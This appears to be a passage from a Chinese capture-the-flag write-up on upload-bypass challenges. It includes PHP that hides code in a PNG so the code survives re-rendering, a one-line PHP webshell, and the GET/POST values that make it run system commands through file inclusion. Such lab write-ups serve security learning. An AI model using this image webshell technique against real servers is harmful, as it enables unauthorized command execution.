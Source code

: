 png二次渲染

这题已经存在**文件包含漏洞**

利用下方代码进行png二次渲染绕过

```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
    0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
    0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
    0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
    0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
    0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
    0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
    0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
    $r = $p[$y];
    $g = $p[$y+1];
    $b = $p[$y+2];
    $color = imagecolorallocate($img, $r, $g, $b);
    imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'1.png'); #保存在本地的图片马
?>
```

木马内容，分离免杀

```
<?$_GET[0]($_POST[1]);?>
```

触发木马 get传入`0=system`；post传入`1=tac flag.php`

## web165

jpg二次渲染

## web166

配合文件包含

```
注意：有时候会出错，是因为 要改一下MIME类型：
Content-Type: application/zip 
需要修改成：
Content-Type: application/x-zip-compressed
```
